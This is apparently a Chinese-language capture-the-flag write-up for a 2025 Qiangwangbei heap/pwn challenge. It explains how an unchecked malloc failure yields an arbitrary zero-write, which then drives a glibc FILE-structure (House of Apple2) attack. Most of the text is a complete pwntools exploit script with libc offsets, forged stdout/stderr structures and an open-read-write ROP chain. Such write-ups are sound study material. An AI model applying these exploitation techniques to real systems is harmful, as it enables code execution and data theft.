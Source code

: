 ```yaml
---
title: 2025qwb_bph
date: 2025-10-22 16:47:03
categories: 2025-qwb
tags: houseof
---
```


> 最近真的很少打CTF，被暴打的没啥信心了，而且很多题逆向太多了，懒得看

# 漏洞点

漏洞出现在申请堆块时没有检查malloc是否成功，而malloc失败固定返回0
这里填size的时候可以填写任意地址，就可以得到`0 + 任意地址 - `置零

![set_zero](./2025qwb-bph/set_zero.png)

还有通过前面的read函数可以配合printf泄漏libc地址或者是其他地址
这里决定打libc，所以拿libc地址

# 利用手法

这里的置零要给`_IO_2_1_stdin_->file->_IO_buf_base`用
这样可以在fgets得到一个向`_IO_2_1_stdin_`写的机会
因为fgets中有一个`read(fp, fp->_IO_buf_base, fp->_IO_buf_end - fp->_IO_buf_base);`

![fgets_read](./2025qwb-bph/fgets_read.png)

然后再重复就可以完全控制_IO_buf_base，将其指向`_IO_2_1_stdout_`，打IO
所以我们就可以获得一个可控rdi的任意地址跳转(这部分属于传统apple2)

由于高版本的`setcontext`变成了使用rdx，我们需要一个将控制rdi转换为rdx的办法
这里可以走`_IO_switch_to_wget_mode`来将控制rdx，原因不仅是这个函数可以帮我们用rdi控rdx
更重要的原因是它间接属于`_IO_wfile_jumps`的跳表中(它被`IO_wfile_seekoff`调用)

另外`_IO_wfile_seekoff`中还对第四个参数`mode`进行检查，要求`mode`不为零才可以

以及可以看到需要满足
`fp->_wide_data->_IO_write_ptr > fp->_wide_data->_IO_write_base || _IO_in_put_mode (fp)`
才可以执行到_IO_switch_to_wget_mode，这里我没有特意调整也满足了，不过可以留意一下

![IO_wfile_seekoff](./2025qwb-bph/IO_wfile_seekoff.png)

最终实现ORW读flag

# exp
复现的时候搞了一个简单的[filep.py](https://github.com/dbgbgtf1/useful-stuff/blob/main/houseofapple2/filep.py)用来方便取IO结构体成员偏移
```python
from pwn import *
from filep import Filep

context(
    terminal=['kitty'],
    os='linux',
    arch='amd64',
    log_level='debug',
)
libc = ELF('./libc.so.6')

io.sendafter(b'token: ', b'a' * 0x28)
io.recvuntil(b'a' * 0x28)
libc.address = u64(io.recv(0x6).ljust(0x8, b'\x00')) - 0xADDAE
print(hex(libc.address))

stdin = Filep(libc.address + 0x2038E0)
stdout = Filep(libc.address + 0x2045C0)
stderr = Filep(libc.address + 0x2044E0)

io.sendlineafter(b'Choice', b'1')
pause()
io.sendlineafter(b'Size', (str(stdin._IO_buf_base.address + 1)).encode())
pause()
io.sendafter(b'Content', b'a')

# stderr is for rop
# stdout is for IO_hack
pause()
io.send(p64(stderr.address - 2) * 4 + p64(stdout.address + 0xE8))
pause()
io.sendlineafter(b'Choice', b'')
# 在这里非常的奇怪，我必须把回车和上面的输出分开，否则fgets会遇到奇怪的bug然后卡死

setcontext = libc.address + 0x4A99D
io_wfile_jumps = libc.address + 0x202228
io_switch_to_wget_mode = libc.address + 0x8AFC0

rax = libc.address + 0xdd237
rdi = libc.address + 0x10F78B
rsi = libc.address + 0x110A7D
rcx = libc.address + 0xA877E
rdx = libc.address + 0xB503C
syscall = libc.address + 0x98FB6

fake_stderr = flat(
    {
        0x18 - 0x10: 0x0,
        0x20 - 0x10: p64(stderr.address - 0x10),
        0x88 - 0x10: p64(0x200),
        0xA0 - 0x10: p64(stdout.address + 0x50),
        0xA8 - 0x10: p64(rdi),
        0xE0 - 0x10: p64(stdout.address),
    },
    filler=b'\x00',
    length=0xE0,
)

fake_stdout = flat(
    {
        0x0: 0xDEADBEEF,
        0x18: p64(setcontext),
        0x20: b'flag' + b'\x00' * 4,
        0x50: p64(0x0),
        0x58: p64(rsi),
        0x60: p64(stdout.address + 0x70),
        0x68: p64(syscall),
        stdout._wide_data.offset : p64(stderr.address - 0x10),
        stdout.vtable.offset: p64(io_wfile_jumps + 0x10),
    },
    filler=b'\x00',
)

pause()
io.sendlineafter(b'Choice', b'2')
io.sendlineafter(b'Index: ', b'1\n' + fake_stderr + fake_stdout)

flag_addr = stdout.address + 0x20

pause()
rop = flat(
    rdi, -100,
    rsi, flag_addr,
    rdx, 0x0, 0x0, 0x0, 0x0, 0x0,
    rax, 0x101,
    rcx, 0x0,
    syscall,

    rdi, 0x3,
    rsi, flag_addr,
    rdx, 0x100, 0x0, 0x0, 0x0, 0x0,
    rax, 0x0,
    syscall,

    rdi, 0x1,
    rsi, flag_addr,
    rdx, 0x100, 0x0, 0x0, 0x0, 0x0,
    rax, 0x1,
    syscall,
)
io.send(rop)

io.interactive()
```
